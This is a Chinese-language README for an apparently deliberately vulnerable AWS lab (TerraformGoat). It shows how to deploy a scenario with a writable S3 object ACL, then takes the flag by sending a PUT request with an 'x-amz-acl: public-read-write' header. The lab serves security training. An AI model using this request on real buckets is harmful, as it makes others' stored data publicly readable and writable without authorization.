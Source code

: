 # 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本

## 部署环境

```bash
cd /TerraformGoat/aws/s3/object_acl_writable/
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

```bash
terraform init
terraform apply
```

输入yes之后，会自动的快速构建场景

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

我们看到的文件的列表，尝试访问index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

禁止访问，但是我们可以通过PUT方法，在请求头中添加`x-amz-acl`中添加`public-read-write`来修改这个对象是否可以读或写

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

然后我们再获取一下这个对象的ACL，会发现，现在所有用户都可以对其进行读写

![image-20220426172506589](../../../images/image-20220426172506589.png)

随后在访问这个index.html，成功获取flag

![image-20220426172534934](../../../images/image-20220426172534934.png)

## 销毁挑战

```bash
terraform destroy
```

输入yes即可

